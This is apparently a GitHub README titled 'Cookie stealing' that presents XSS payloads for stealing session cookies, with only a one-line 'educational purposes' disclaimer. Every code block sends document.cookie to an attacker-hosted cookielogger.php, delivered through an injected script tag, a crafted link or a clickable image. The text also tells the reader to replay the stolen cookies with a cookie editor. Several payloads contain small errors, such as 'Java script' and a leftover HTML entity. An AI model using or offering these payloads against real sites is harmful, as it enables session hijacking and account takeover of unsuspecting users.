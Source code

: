# **Cookie stealing**
<p>Some cooklie stealing using php</p>
**ONLY FOR EDUCATIONAL PURPOSES**

Some examples of using them:
```
"><script language= "JavaScript">document.location="http://yoursite.com/whateveryouwant.php?cookie=" + document.cookie;document.location="http://www.whateversite.com"</script>
```
yoursite.com is the server you’re hosting your cookie stealer and log file on, and whateversite.com is the vulnerable page you’re exploiting.

The victim just enters the page:
```
<script language="Java script">
document.location="http://www.yourhost.com/cookielogger.php?cookie=&quot; + document.cookie;
</script>
```

Your can also trick the victim into clicking a link that activates javascript.
```
<a href="java script:document.location='http://www.yourhost.com/cookielogger.php?cookie='+document.cookie;">Click here!</a>
```

Clicking an image also can activate the script.For this purpose you can use the below code.
```
<a href="java script:document.location='http://www.yourhost.com/cookielogger.php?cookie='+document.cookie;"&gt;
<img src="URL OF THE IMAGE"/></a>
```

To use the information download a cookie editor such as firebug.